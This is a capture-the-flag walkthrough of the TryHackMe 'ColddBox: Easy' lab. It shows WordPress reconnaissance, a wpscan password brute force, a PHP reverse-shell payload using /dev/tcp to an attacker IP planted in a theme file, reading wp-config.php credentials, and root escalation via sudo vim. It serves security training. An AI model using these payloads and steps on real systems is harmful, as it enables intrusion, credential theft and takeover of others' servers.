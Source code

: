 # CTF-Write-up

## Try Hack Me - ColddBox: Easy

##### URL: https://tryhackme.com/room/colddboxeasy

##### Created by _https://tryhackme.com/p/Coldd_

![logo](https://user-images.githubusercontent.com/20625004/141612875-286ea779-19ce-43bd-b022-26e3c1ae5685.PNG)

You should deploy the machine first.

Add the CTF ip to your host file.

``` echo "CTF ip" >> /etc/hosts```

Run nmap against the target machine.

```nmap -sC -A  <target IP>```

Port 80 HTTP is open lets access the web app.

![webapp](https://user-images.githubusercontent.com/20625004/141612903-62b621d0-e4a1-46a4-a2fe-f55b701ca71e.PNG)

Lets use ``gobuster`` to find intersting directories and paths.

``gobuster dir -u http://<target IP> -w /usr/share/wordlist ``

![gobuster](https://user-images.githubusercontent.com/20625004/141612988-5b8a595c-1061-4787-bc07-ce922e17b5f3.PNG)

Access hidden path and we find some names. Also there is a login page and we have identified that the site is using wordpress.

![hidden](https://user-images.githubusercontent.com/20625004/141613066-e6cb15b2-7a84-49b3-ae54-46c1a47960ba.PNG)


![login](https://user-images.githubusercontent.com/20625004/141613081-260b5236-8173-4a0f-8e3d-e4be8558f8fb.PNG)


Now use ``wpscan`` tool to scan the site.

``wpscan --url http://<target IP>/wp-login.php ``

From the names of the ``hidden`` path you can use ``wpsacn`` to brute force.

``wpscan --url http://<target IP>/wp-login.php --passwords /usr/share/wordlists/wordlist --usernames <name>``

![wpascan](https://user-images.githubusercontent.com/20625004/141613265-9ea0b025-1987-4f20-bfad-f8110401d8e4.PNG)

After we were able to access the login page with the cracked username.

Digging around we are able to upload a reverse shell.

![shell](https://user-images.githubusercontent.com/20625004/141613463-aaea3c72-3d33-44ce-816f-0bf630945dbf.PNG)

``<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<Attacker IP>/4444 0>&1'");?>``

Open a listener on your machine ``nc -lvnp 4444`` and then update the file with shell and access the page to give you back the connection.

I used the ``/twentyfifteen/header.php`` for the shell.

Access the page ``http://<target IP>/wp-content/themes/twentyfifteen/header.php`` and now you have access to the machine.

![1](https://user-images.githubusercontent.com/20625004/141613571-ad605b76-d9f8-465c-b5c6-a41644beb35a.PNG)

We have no permissions lets check more.

![2](https://user-images.githubusercontent.com/20625004/141613650-5a4d8166-3cb0-4480-b291-37d5cd6f9e7a.PNG)

Access the path ``/var/www/html/`` there are some files cat ``wp-config/php``.

![3](https://user-images.githubusercontent.com/20625004/141613675-de512ab9-9873-497b-a5b8-34e8b4f5bf21.PNG)

We found a password ``su user`` and access the new user.

![4](https://user-images.githubusercontent.com/20625004/141613728-63ba08b8-a9e9-4586-ad30-560cb122d6c6.PNG)

we have our first flag.

![5](https://user-images.githubusercontent.com/20625004/141613769-60eea95c-8c8f-487c-b269-df9653d88810.PNG)

Now lets see what the user can run as root with ``sudo -l``.

![6](https://user-images.githubusercontent.com/20625004/141613804-5eeb804e-bfd9-472e-b2ce-6cf96f8330c2.PNG)

Lets use vim with the help from ``https://gtfobins.github.io/gtfobins/vim/#sudo`` 

``sudo vim -c ':!/bin/sh'``

And now we have escalted our privileges and we can find the second flag.

![7](https://user-images.githubusercontent.com/20625004/141613878-db3ab089-6472-4c30-ba5d-88f6ea6f46d8.PNG)
